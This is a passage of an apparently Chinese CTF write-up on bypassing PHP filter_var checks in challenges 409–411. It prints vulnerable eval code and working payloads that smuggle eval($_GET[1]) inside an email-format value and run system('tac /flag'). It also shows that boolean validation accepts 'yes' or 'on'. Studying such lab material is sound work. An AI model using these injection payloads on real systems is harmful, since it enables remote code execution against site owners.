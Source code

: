 ```
?email="<?=eval($_GET[1]);?>"@a.php
```



## 409-FILTER_VALIDATE_EMAIL

```php
if(filter_var ($email,FILTER_VALIDATE_EMAIL)){
    $email=preg_replace('/.flag/', '', $email);
    eval($email);
}
```

因为要符合if判断，咱们传入的payload形式是：`"xxx"@xxx`

要利用eval执行php代码，就得避免非php代码格式的东东影响，这里需要把`双引号`以及后面的`@xxx`的影响消除掉

`preg_replace`会把`flag和前面的任意字符`置换为空，后面的`"@xxx`可以用`?>`提前闭合

```
?email="flageval($_GET[1]);?>"@a.com
```

flag~

```
/?email="flageval($_GET[1]);?>"@a.com&1=system('tac /flag');
```



## 410、411-FILTER_VALIDATE_BOOLEAN

```php
$b=$_GET['b'];
if(filter_var ($b,FILTER_VALIDATE_BOOLEAN)){
    if($b=='true' || intval($b)>0){
   #411 if($b=='true' || intval($b)>0 ||$b=='on' || $b=='ON')
        die('FLAG NOT HERE');
    }else{
        echo $flag;
    }
}
```

> FILTER_VALIDATE_BOOLEAN：
>
> 如果是 "1", "true", "on" 以及 "yes"，则返回 true；
>
> 如果是 "0", "false", "off", "no" 以及 ""，则返回 false。否则返回 NULL。

传入on或者yes都可以

```
?b=yes
?b=on
还可以大小写：On 或者 oN
```
